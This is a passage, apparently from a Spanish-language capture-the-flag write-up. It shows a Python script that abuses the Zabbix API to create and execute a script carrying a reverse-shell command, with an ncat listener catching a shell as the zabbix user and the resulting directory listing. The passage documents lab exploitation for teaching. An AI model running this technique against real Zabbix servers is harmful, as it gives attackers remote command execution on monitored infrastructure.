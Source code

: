 ``` python
        scriptid = script['scriptid']
        zapi.script.update(scriptid=scriptid, command=revshell)

if scriptid == "":
    scriptid = zapi.script.create(name='miau script', command=revshell)['scriptids']

print(zapi.script.execute(hostid=hostid, scriptid=scriptid))
```

Bastaría con iniciar un netcat para esperar la conexión:

``` text
Shell1:
xbytemx@laptop:~$ ncat -klvnp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001

Shell2:
xbytemx@laptop:~$ python3 get_revsh.py

Shell1:
Ncat: Connection from 10.10.10.108.
Ncat: Connection from 10.10.10.108:46448.
id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
ls -lah /
total 84K
drwxr-xr-x   1 root root 4.0K Jan 22 23:22 .
drwxr-xr-x   1 root root 4.0K Jan 22 23:22 ..
-rwxr-xr-x   1 root root    0 Jan 22 23:22 .dockerenv
drwxrwxrwx   2 1000 1000 4.0K Jan 22 23:34 backups
drwxr-xr-x   1 root root 4.0K Sep  8 07:21 bin
drwxr-xr-x   2 root root 4.0K Apr 24  2018 boot
drwxr-xr-x   5 root root  360 Jan 22 23:22 dev
drwxr-xr-x   1 root root 4.0K Jan 22 23:22 etc
drwxr-xr-x   2 root root 4.0K Apr 24  2018 home
drwxr-xr-x   1 root root 4.0K Aug 21  2018 lib
drwxr-xr-x   2 root root 4.0K Aug 21  2018 media
drwxr-xr-x   2 root root 4.0K Aug 21  2018 mnt
drwxr-xr-x   2 root root 4.0K Aug 21  2018 opt
dr-xr-xr-x 139 root root    0 Jan  9 23:22 proc
drwx------   1 root root 4.0K Sep  8 07:33 root
drwxr-xr-x   1 root root 4.0K Sep  8 07:39 run
drwxr-xr-x   1 root root 4.0K Sep  8 07:19 sbin
drwxr-xr-x   2 root root 4.0K Aug 21  2018 srv
dr-xr-xr-x  13 root root    0 Jan  9 23:33 sys
drwxrwxrwt   1 root root 4.0K Jan  9 23:22 tmp
drwxr-xr-x   1 root root 4.0K Aug 21  2018 usr
drwxr-xr-x   1 root root 4.0K Sep  8 07:21 var
```
